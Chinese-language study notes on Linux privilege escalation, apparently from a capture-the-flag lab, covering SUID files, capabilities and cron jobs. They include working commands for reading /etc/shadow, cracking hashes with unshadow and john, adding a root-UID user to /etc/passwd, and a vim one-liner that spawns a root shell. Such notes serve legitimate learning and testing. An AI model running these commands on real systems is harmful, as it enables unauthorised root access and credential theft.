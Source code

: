 # https://gtfobins.github.io/ 命令列表


### SUID

文件可以具有读取、写入和执行权限。这些权限授予用户的权限级别。这随着 SUID（设置用户标识）和 SGID（设置组标识）而更改。它们允许分别以文件所有者或组所有者的权限级别执行文件。

    find / -type f -perm -04000 2>/dev/null    查看设有suid的文件

/etc/shadow需要root才能读写, 可以想办法利用sudo或具有suid的文件读写命令尝试读取，如base64

利用unshadow配合john可以尝试爆破用户密码:

    unshadow </etc/passwd> </etc/shadow> > <OutFileName>

将上述输出的文件利用john暴力破解

    john --wordlist <比如rockyou.txt> <上述输出的文件名>


此外，如果有权限，还可以直接向/etc/passwd/添加root权限的用户

使用openssl创建加盐hash密码:

    openssl passwd -1 -salt h4ck <password>

然后将结果插入：

    <username>:<上述结果>:0:0:root:/root:/bin/bash

    将该条信息追加进/etc/passwd


### Capabilities

系统管理员可用于提高进程或二进制文件权限级别的另一种方法是“Capabilities”. Capabilities 帮助在更精细的级别管理权限。例如，如果 SOC 分析师需要使用需要启动套接字连接的工具，则普通用户将无法执行此操作。如果系统管理员不想授予此用户更高的权限，他们可以更改Capabilities的二进制文件。因此，二进制文件将在不需要更高权限用户的情况下完成其任务

    getcap -r / 2>/dev/null

例如如果vim在cap里面，则可以尝试提权：

    ./vim -c ':py3 import os;os.setuid(0);os.execl("/bin/sh","sh","-c","reset; exec sh")'

注意程序路径！

<pre>karen@ip-10-10-141-89:~$ pwd
/home/karen
karen@ip-10-10-141-89:~$ getcap -r / 2&gt;/dev/null |grep vim
/home/karen/vim = cap_setuid+ep
karen@ip-10-10-141-89:~$ 
</pre>


### Cron Jobs

Cron 作业用于在特定时间运行脚本或二进制文件。默认情况下，它们以其所有者而不是当前用户的权限运行。虽然正确配置的 cron 作业本身并不容易受到攻击，但在某些情况下它们可以提供权限升级向量。
这个想法很简单;如果有一个以 root 权限运行的计划任务，并且我们可以更改将要运行的脚本，那么我们的脚本将以 root 权限运行。

Cron 作业配置存储为 crontabs（cron 表），以查看任务下次运行的时间和日期。
